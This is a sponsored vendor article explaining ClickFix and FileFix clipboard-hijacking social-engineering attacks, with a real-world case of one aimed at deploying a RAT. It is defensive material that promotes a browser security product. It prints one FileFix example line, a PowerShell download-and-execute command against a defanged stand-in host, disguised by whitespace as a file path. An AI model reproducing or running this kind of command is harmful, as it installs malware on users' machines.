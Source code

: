 # Inside a Real Clickfix Attack: How This Social Engineering Hack Unfolds

![Cyber mouse](https://www.bleepstatic.com/content/posts/2025/07/30/cyber-click.jpg)

An inside look at a ClickFix campaign and a real-world attack, its next iteration (FileFix), and how to prevent it in its tracks, before device compromise.

## ClickFix: Silent Copying to Clipboard

ClickFix, a deceptive social engineering tactic, is used by threat actors to manipulate unsuspecting users into unwittingly allowing a web page to silently populate the clipboard.

Ultimately, the attacker is attempting to get a user to (unknowingly) execute malicious code, gathered from the browser and quietly placed into the user’s clipboard, on the host machine.

Coined initially as “ClickFix” because the social engineering prompts were telling the user they ought to “fix” a problem with their browser and required the user to click an element, this term is now ascribed to any similar attack, one in which a user clicks an element, the page then populates the victim’s clipboard, and it instructs the user to paste the malicious code into their device’s terminal.

![Images of a ClickFix attack disguised as a CAPTCHA prompt.](https://www.bleepstatic.com/images/news/security/k/keepaware/clickfix/ClickFix_CAPTCHA.jpg)

**Images of a ClickFix attack disguised as a CAPTCHA prompt.**

The above screenshots show an example ClickFix attack. Once the user clicks the fake CAPTCHA, the page silently populates the user’s clipboard with malicious code. It then displays instructions for the user to prove they are human—by pasting (the malicious code) into the Windows Run dialog.

For more information about ClickFix, see our article explaining [the what, why, where, and how of ClickFix](https://keepaware.com/blog/clickfix-the-what-why-where-and-how-of-it-all?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly).

## [Stop ClickFix Attacks Where They Start: In the Browser](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)

Keep Aware, the purpose-built browser security platform, detects deceptive interactions in real time, right where they happen.

By monitoring clipboard access patterns, flagging suspicious web pages, and disrupting lateral movement techniques like ClickFix, Keep Aware empowers organizations to shut down attacks before they ever leave the browser and reach the host.

[Request a Demo](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)

## Real-World Attack: Google Result to ClickFix Attempt

A Keep Aware customer recently encountered a ClickFix attack in the wild. While browsing search engine results, the user clicked on a compromised site. This site, injected with malicious JavaScript, delivered a ClickFix prompt, ultimately for the goal of deploying the NetSupportManager RAT backdoor.

The user had clicked on the prompt, allowing the page to populate the clipboard (with malicious PowerShell), and instructing the user to paste into the device’s terminal.

However, Keep Aware identified, blocked, and warned the user of the suspicious commands the page attempted to populate the clipboard with, effectively preventing device compromise.

The video below walks through what visitors experience on this compromised site—a fake CAPTCHA verification frame. Upon clicking the fake CAPTCHA, malicious JavaScript updates the user’s clipboard with malicious PowerShell code and prompts the user to paste it into the Windows Run dialog.

Below is a walkthrough of what would have happened if Keep Aware’s safeguards were not in place to limit the user’s actions and clear the user’s clipboard.

If the social engineering tactic had been successful and no technical controls had been in place, the user would have unknowingly executed malicious PowerShell code.

This kicks of a series of downloads, de-obfuscation, assembling malware on the host machine, and setting up persistence in the user’s Run registry key—enabling the malware to persist on the compromised device and run each time the user logs in to their computer account.

For specific details about this real-world attack, including both the initial download cradle and the subsequent PowerShell code, check out our [step-by-step walkthrough](https://keepaware.com/blog/clickfix-to-remote-access-a-step-by-step-walkthrough?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly).

## Impact: RATs, Stealers, and More

ClickFix attacks use malicious JavaScript, clipboard manipulation, and social engineering to ultimately gain the attacker access from the browser to the host device.

It has been seen on both malicious and compromised web pages and has been used by multiple threat groups to gain access to victim machines, ultimately deploying malware and remote access trojans (RATs), including AsyncRAT, Skuld Stealer, Lumma Stealer, DarkGate malware, DanaBot stealer, and more.

When left undeterred by technical defenses, these seemingly simple clipboard attacks can escalate into full-system compromise, giving threat actors remote control, access to sensitive data, and persistent footholds that are difficult to detect and even harder to remove.

## The Next Gen: FileFix

FileFix is the next iteration, the younger sibling, of ClickFix—another clipboard-manipulation attack designed to trick users into executing code outside the browser context. First documented by security researcher mr.d0x in late June this year, FileFix dupes users into pasting commands directly into File Explorer’s address bar, and threat actors are already adopting this newer technique.

At a glance, the pasted output looks harmless, like a standard Windows file path. But hidden at the start is a malicious command; the "file path" that follows is a comment, disguising the real threat.

```
Powershell.exe -c "iwr malicious[.]site/mal.jpg|iex" #                                                                                          C:\Organization\Internal\Drive\Business-RFP.pdf
```

The full data copied to the user’s clipboard is a malicious PowerShell command ending in a comment containing a file path.

Notice in the image below, how the seemingly harmless file path in the Explorer’s address bar does not show the actual PowerShell is hidden from the user’s view.

![File Explorer, opened by a Chrome tab.](https://www.bleepstatic.com/images/news/security/k/keepaware/clickfix/fileexplore-filefix.jpg)

**File Explorer, opened by a Chrome tab.**

Like ClickFix, the FileFix attack originates in the browser and relies on social engineering, clipboard injection, and user action to cross the boundary between browser and host. FileFix is, at its core, a ClickFix attack specific to using File Explorer.

* Both happen in the browser context.
* Both use the same clipboard population technique.
* Both leverage malicious and compromised websites, blurring the line between trusted and malicious web traffic.
* Both lead to attacker access on the host device.

This means that FileFix can be stopped the same way ClickFix is: with browser-native defenses. Browser security solutions, like Keep Aware, detect clipboard population attempts in real-time and intercept suspicious code before it ever reaches the host device. This is why having policies built into the browser ensures that compromises are kept at bay.

## Browser Security Takes the Main Stage

ClickFix and FileFix attacks reveal a critical blind spot in many security strategies: the browser as a vector for host compromise. These clipboard-based techniques use social engineering and abuse the user's interaction with seemingly legitimate, or even compromised, websites to deliver malicious code.

Without visibility into browser activity or control over clipboard access, traditional defenses miss the early signs. But with browser-native insight and real-time clipboard protection, organizations can intercept these attacks at their source, before any code is executed on the host.

At Keep Aware, we’ve seen firsthand how traditional security tools fall short when it comes to protecting the browser—the primary interface employees rely on and attackers exploit. That’s why we built our platform: to detect and block clipboard manipulation and other browser-based attacks before they can cause real harm.

**Interested in learning more? Feel free to [request a demo here.](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)**

Additionally, we’re proud to be named one of just [four](https://keepaware.com/blog/keep-aware-named-finalist-in-black-hat-usa-2025-startup-spotlight-competition?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)[ ](https://keepaware.com/blog/keep-aware-named-finalist-in-black-hat-usa-2025-startup-spotlight-competition?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)[Black Hat USA 2025 Startup Spotlight Finalists](https://keepaware.com/blog/keep-aware-named-finalist-in-black-hat-usa-2025-startup-spotlight-competition?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly) for innovation, and we remain committed to redefining how organizations secure and manage the browser—the place where today’s work begins, and where today’s attacks often start.

If you’ll be attending Black Hat USA 2025 next week, watch us take the stage to make our pitch, stop by the Keep Aware booth, or **[schedule time to chat with the team](https://keepaware.com/events/black-hat-usa-2025)** at the event.

_Sponsored and written by [Keep Aware](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)._